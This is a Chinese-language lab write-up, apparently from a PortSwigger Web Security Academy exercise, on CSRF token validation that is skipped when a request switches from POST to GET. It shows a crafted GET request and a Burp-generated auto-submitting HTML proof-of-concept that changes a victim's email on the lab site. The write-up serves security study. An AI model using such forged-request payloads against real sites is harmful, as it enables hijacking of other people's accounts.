 2、CSRF令牌不必作为隐藏参数在后请求。如一些应用程序将CSRF令牌放在HTTP头中。令牌的传输方式对整个机制的安全性具有重大影响。

3、CSRF令牌验证中的常见缺陷

CSRF令牌的验证取决于请求方法

#### 2、CSRF令牌的验证取决于请求方法

1、当请求使用POST方法时，一些应用程序可以正确地验证令牌，但当使用GET方法时，则跳过验证。

在这种情况下，攻击者可以切换到GET方法来绕过验证并发起CSRF攻击：

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

### 步骤

抓包实验，观察修改邮箱的数据包，发现有 post 传递了 csrf 参数，即为令牌，尝试更改请求方式为 GET ，观察验证有无失效

<img src=".\图片\Snipaste_2023-07-28_10-43-48.png" alt="Snipaste_2023-07-28_10-43-48" style="zoom:80%;" />

发现令牌失效，邮箱被我们修改成了 `12345@123.com`  ，于是故技重施，使用 burp 生成 csrf 的 poc ，发给漏洞利用服务器（这里模拟受害者触发了我们的链接）

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a7f004304d5cd61805d03cf00d10012.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="123456&#64;123&#46;com" />
      <input type="hidden" name="csrf" value="j1D4HmVPmhh1C7wvxh53JoA6g6KD0qM8" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
